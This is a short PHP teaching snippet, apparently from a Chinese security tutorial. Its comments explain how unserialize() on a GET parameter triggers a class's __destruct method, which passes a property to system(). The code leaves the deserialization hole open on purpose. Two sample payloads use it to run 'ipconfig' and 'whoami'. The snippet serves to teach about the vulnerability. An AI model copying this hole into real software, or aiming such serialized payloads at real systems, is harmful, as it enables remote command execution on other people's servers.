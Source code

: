 ```php
//代码
<?php
class Test{			//创建一个类
	public $str='ichunqiu';
	function __destruct(){	//通过反序列化，调用A对象，因为PHP魔法函数的原因，会自动执行__destruct()
		@system($this->str);
	}
}
$test = new Test();		
//echo serialize($test);
echo "<pre>";
unserialize($_GET['code']);		//反序列化，将得到的序列化字符串反序列化为对象
?>
    
//payload
    ?code=O:4:"Test":1:{s:3:"str";s:8:"ipconfig";}
	?code=O:4:"Test":1:{s:3:"str";s:6:"whoami";}
```

